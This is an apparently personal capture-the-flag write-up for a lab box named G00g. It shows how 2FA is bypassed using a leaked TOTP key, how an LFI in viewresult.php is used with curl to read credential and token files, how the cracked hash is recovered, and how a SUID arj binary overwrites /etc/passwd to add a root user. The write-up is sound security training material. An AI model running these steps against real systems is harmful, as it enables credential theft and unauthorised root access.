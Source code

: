# G00g

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.144
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 22:36 +08
Nmap scan report for 192.168.202.144
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Web Enum --> Google Auth

Visiting port 80 requires credentials:

<figure><img src="../../../.gitbook/assets/image (58) (7).png" alt=""><figcaption></figcaption></figure>

`admin:admin` works. Afterwards, we are just greeted by this:

<figure><img src="../../../.gitbook/assets/image (27) (5).png" alt=""><figcaption></figcaption></figure>

In the comments, there's a hidden directory:

<figure><img src="../../../.gitbook/assets/image (41) (5).png" alt=""><figcaption></figcaption></figure>

Googling this leads to some Apache 2FA thing using Google Authenticator:

{% embed url="https://github.com/itemir/apache_2fa" %}

The repository included this interesting bit here:

<figure><img src="../../../.gitbook/assets/image (47) (8).png" alt=""><figcaption></figcaption></figure>

So within Google Authenticaotr, we can click the Plus sign in the corner:

<figure><img src="../../../.gitbook/assets/image (24) (3).png" alt=""><figcaption></figcaption></figure>

We can then enter this key:

<figure><img src="../../../.gitbook/assets/image (40) (5).png" alt=""><figcaption></figcaption></figure>

After adding this, we would get a OTP every 30 seconds as with normal Google Authenticator:

<figure><img src="../../../.gitbook/assets/image (63) (7).png" alt=""><figcaption></figcaption></figure>

Keying in this 2FA token would grant us access to the web page:

<figure><img src="../../../.gitbook/assets/image (22) (11).png" alt=""><figcaption></figcaption></figure>

### LFI --> User Creds + Token

The website is obviously vulnerable to some form of exploit. When we run it and view the result, it shows us the results by reading from a file:

<figure><img src="../../../.gitbook/assets/image (46) (7).png" alt=""><figcaption></figcaption></figure>

This is very obviously vulnerable to LFI, and we can use that to read other files.

<figure><img src="../../../.gitbook/assets/image (62) (9).png" alt=""><figcaption></figcaption></figure>

There weren't any SSH keys to read for the `fox` user. However, the Github repo did mention that there is an `apache_credentials` file somewhere on this machine.&#x20;

After some testing, I found in within the `/opt` directory:$ curl -H 'Cookie: 2FA\_Auth=junH2NR79pTrLiI800JewoWsESYCry6Xbz4oaIJ71VlhUKEHPNcdHsq4I6uK1CZUMKBz1ZExSDC0OcpmcFEyojXc823DIB9PA6ExXs' -G --data-urlencode 'view=/opt/apache\_2fa/apache\_credentials' http://192.168.202.144/spool/viewresult.php

```
<pre>admin:$apr1$pa.RhgPO$18S/xeIW24UvBgjVJJXiC1
fox:$apr1$JWr/q2vH$KXhhk03ukqkoXjbOIoUVp/
</pre><a href=javascript:history.back()>Back</a>
```

This can be cracked easily:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
THERESE          (?)     
1g 0:00:00:00 DONE (2023-07-06 22:55) 1.250g/s 257760p/s 257760c/s 257760C/s abhijeet..ROSALINDA
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

However, we cannot just SSH in:

```
$ ssh fox@192.168.202.144                   
(fox@192.168.202.144) Password: 
(fox@192.168.202.144) Verification code: 
```

The user has 2FA too! So we need to steal the `tokens.json` file as well.&#x20;

```
$ curl -H 'Cookie: 2FA_Auth=junH2NR79pTrLiI800JewoWsESYCry6Xbz4oaIJ71VlhUKEHPNcdHsq4I6uK1CZUMKBz1ZExSDC0OcpmcFEyojXc823DIB9PA6ExXs' -G --data-urlencode 'view=/opt/apache_2fa/tokens.json' http://192.168.202.144/spool/viewresult.php
<pre>{
  "admin": "ND4LKCSFMUQISO6CBZQATLDP",
  "fox": "RTW2ARWLJZRWUCN54UO22FDQ6I"
}
```

Afterwards, we can do the same thing with Google Authenticator to get a 2FA code to `ssh` in:

<figure><img src="../../../.gitbook/assets/image (49) (1) (4).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

I ran a `linpeas.sh` to find possible vectors, and it picked up on one SUID binary:

```
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════
[+] SUID - Check easy privesc, exploits and write perms                                      
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
<TRUNCATED>
-rwsr-sr-x 1 root root       378K Feb 10  2019 /usr/bin/arj
<TRUNCATED>
```

GTFOBins has an entry for this:

{% embed url="https://gtfobins.github.io/gtfobins/arj/" %}

To exploit this, we can add a new `root` user. First, we can generate a new `passwd` file with our new user and hash, then overwrite it using `arj`.

```bash
$ openssl passwd -1 hello123
$1$IcHRZy7h$w3kdNeqGjC1Z50bTlQehS/

cp /etc/passwd passwd
echo 'ez:$1$IcHRZy7h$w3kdNeqGjC1Z50bTlQehS/:0:0::/root:/bin/bash' >> passwd
arj a "passwd" "passwd"
arj e "passwd.arj" "/etc"
```

<figure><img src="../../../.gitbook/assets/image (52) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
